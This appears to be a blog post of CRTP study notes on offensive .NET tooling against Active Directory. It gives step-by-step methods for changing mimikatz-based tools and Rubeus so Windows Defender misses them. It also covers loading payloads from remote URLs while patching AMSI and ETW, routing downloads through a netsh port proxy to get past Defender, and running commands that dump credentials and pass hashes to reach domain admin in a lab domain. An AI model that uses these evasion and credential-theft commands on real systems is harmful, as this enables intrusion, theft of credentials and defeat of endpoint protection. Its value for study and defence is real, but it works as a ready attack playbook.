 ```yaml
---
title: "4 - Offensive .NET"
classes: single
header:  
  teaser: /assets/images/posts/crtp/crtp-teaser5.jpg
  overlay_image: /assets/images/main/header5.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Use Minimal obfuscation and String manipulation to bypass Win Defender"
description: "Use Minimal obfuscation and String manipulation to bypass Win Defender"
categories:
  - notes
  - crtp
tags:
  - begginer
  - AD
  - Windows
  - bypass 
toc : true
---
```

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="nullified" data-description="Support me on Buy me a coffee!" data-message="" data-color="#FF813F" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

# Offensive .NET

**A repo of popular Offensive C# tools**:

[SharpCollection on GitHub](https://github.com/Flangvik/SharpCollection)

[Mimikatz on GitHub](https://github.com/gentilkiwi/mimikatz)


## Tradecraft - AV bypass

> We will focus mostly on bypass of signature based detection by Windows Defender

For that, we can use techniques like Obfuscation, String Manipulation etc.

We can use DefenderCheck:

[DefenderCheck on GitHub](https://github.com/matterpreter/DefenderCheck)

> To identify code and strings from a binary that Windows Defender may flag.

This helps us in deciding on modifying the source code and minimal obfuscation.


### SharpKatz

Let's check SharpKatz.exe for signatures using DefenderCheck
```powershell
DefenderCheck.exe <Path to Sharpkatz binary>
```

- Open the project in Visual Studio.
- Press **CTRL + H**
- Find and replace the string "Credentials" with "Credents" you can use any other string as an replacement. (Make sure that string is not present in the code)
- Select the scope as **Entire Solution**.
- Press **Replace All** button.
- Build and recheck the binary with *DefenderCheck*.
- Repeat above steps if still there is detection

### Safetykatz

For SafetyKatz, we used the following steps
- Download latest version of Mimikatz and **Out-CompressedDll.ps1**

Run the Out-CompressedDll.ps1 PowerShell script on Mimikatz binary and save the output to a file
```powershell
Out-CompressedDll <Path to mimikatz.exe> > 	outputfilename.txt
```	

[Out-CompressedDll.ps1 in PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)


- Copy the value of the variable **$EncodedCompressedFile** from the output file above and replace the value of **compressedMimikatzString** variable in the **Constants.cs** file of SafetyKatz.

- Copy the byte size from the output file and replace it in **Program.cs** file on the line 111 & 116.
- Build and recheck the binary with *DefenderCheck*

### BetterSafetyKatz

For BetterSafetyKatz, we used the following steps
- Download the latest release of "mimikatz_trunk.zip" file.
- Convert the file to base64 value

![Alt text](/assets/images/posts/crtp/3.png){: .align-center}




Modify the **Program.cs** file.

– Added a new variable that contains the base64 value of **mimikatz_trunk.zip** file.
– Comment the code that downloads or accepts the mimikatz file as an argument.
– Convert the base64 string to bytes and pass it to **zipStream** variable

![Alt text](/assets/images/posts/crtp/4.png){: .align-center}




### Rubeus

For Rubeus.exe, we used **ConfuserEx** to obfuscate the binary

[ConfuserEx on GitHub](https://github.com/mkaring/ConfuserEx)


Launch ConfuserEx:
- In Project tab select the Base Directory where the binary file is located.
- In Project tab Select the Binary File that we want to obfuscate.
- In Settings tab add the rules.
- In Settings tab edit the rule and select the preset as **Normal**.
- In Protect tab click on the protect button.

> We will find the new obfuscated binary in the Confused folder under the Base Directory.

![Alt text](/assets/images/posts/crtp/5.png){: .align-center}



- After obfuscating the binary with ConfuserEx rescan using DefenderCheck we can see the detection of GUID.
- Generate and modify the GUID and compile Rubeus again and rerun the ConfuserEx on the Rubeus.exe binary.

![Alt text](/assets/images/posts/crtp/6.png){: .align-center}



## Payload Delivery     


We can use NetLoader to deliver our binary payloads.

[NetLoader on GitHub](https://github.com/Flangvik/NetLoader)


It can be used to load binary from filepath or URL and patch AMSI & ETW while executing:
```powershell
C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

We also have AssemblyLoad.exe that can be used to load the Netloader in-memory from a URL which then loads a binary from a filepath or URL:
```powershell
C:\Users\Public\AssemblyLoad.exe http://192.168.100.X/Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

### [1] - Getting DA through dcorp-ci
```powershell
iex (iwr http://<ip>/sbloggingbypass.txt -UseBasicParsing)
# bypass ASMI manually
iex ((New-Object Net.WebClient).DownloadString('http://<ip>/PowerView.ps1'))
FInd-DomainUserLocation
winrs -r:<machine> <command> //example winrs -r:dcorp-mgmt hostname;whoami
iwr http://<ip>/Loader.exe -OutfFile C:\Users\Public\Loader.exe
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```


> [NOTE] Windows Defender will block all binaries/executables that are downloaded from remote sources
So, we will configure a portforward to request payload from local loopback. 

> Even if Defender is watching this, because is not remotely the payload its not blocked

```powershell
$null | winrs -r:dcorp-mgmt “netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<attacker IP>”
$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

Create a new PS with high integrity:
```powershell
Rubeus.exe asktgt /user:svcadmin /aes256:<dc hash> /opsec /creanetonly:C:\windows\System32\cmd.exe /show /ptt
```


### [2] - Getting DA through derivative local admin

```powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose

Enter-PSSession <the machine we have local admin access>
```

> we have to bypass AMSI here, but the shell is in **ConstrainedLanguage** Mode

```powershell
$ExecutionContext.SessionState.LanguageMode
```

> we need to search what kind o policy is blocking us : **applocker**, **wdigest**
 
 ```powershell  
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
or
```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2 # "AppLocker = Software Restrict Policy Version 2"
```

Lets copy mimiEx to the target machine

From attacker:
```powershell
Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

> Enter the machine again with PSSession and execute the MimiEx.ps1


From attacker:
```powershell
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe “sekurlsa::opassth” /user:srvadmin /domain:dollarcorp.moneycorp.local /aes256:<hash> /run:cmd.exe" “exit”
```

- This will open a shell with the hash we got with **mimiEx**
- Firstly found what machines this user has local admin access

> [EXTRA] **Session: Service From 0** = means that there is a service using the account as a service account
> so, there is a chance of cached cleartext password on mimikatz results



In the new shell:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
```

> At this point, we can access dump the credentials like we did before in the last path
> Opening a portforward and dump through local loopback                                          ]

